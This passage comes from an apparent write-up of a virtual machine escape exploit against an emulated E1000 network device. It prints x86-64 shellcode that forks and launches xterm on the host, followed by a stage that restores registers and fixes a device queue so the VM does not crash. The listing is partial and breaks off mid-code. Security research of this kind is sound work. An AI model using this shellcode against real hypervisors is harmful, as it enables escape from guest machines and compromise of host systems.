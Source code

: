 The shellcode is executed. Its first part is:

```asm
use64

start:
    ; sys_fork
    mov rax, 58
    syscall

    test rax, rax
    jnz continue_process_execution

    ; Initialize argv
    lea rsi, [cmd]
    mov [argv], rsi

    ; Initialize envp
    lea rsi, [env]
    mov [envp], rsi

    ; sys_execve
    lea rdi, [cmd]
    lea rsi, [argv]
    lea rdx, [envp]
    mov rax, 59
    syscall

...

cmd     db '/usr/bin/xterm', 0
env     db 'DISPLAY=:0.0', 0
argv    dq 0, 0
envp    dq 0, 0
```

It does fork and execve to create /usr/bin/xterm process. The attacker gains control over the host's ring 3.

### Process Continuation
I believe every exploit should be finished. It means it should not crash an application, though it's not always possible, of course. We need the virtual machine to continue execution which is achieved by the second part of shellcode.

```asm
continue_process_execution:
    ; Restore RBP
    mov rbp, rsp
    add rbp, 0x48

    ; Skip junk
    add rsp, 0x10

    ; Restore the registers that must be preserved according to System V ABI
    pop rbx
    pop r12
    pop r13
    pop r14
    pop r15

    ; Skip junk
    add rsp, 0x8

    ; Fix the linked list of PDMQUEUE to prevent segfaults on VM shutdown
    ; Before:   "E1000-Xmit" -> "E1000-Rcv" -> "Mouse_1" -> NULL
```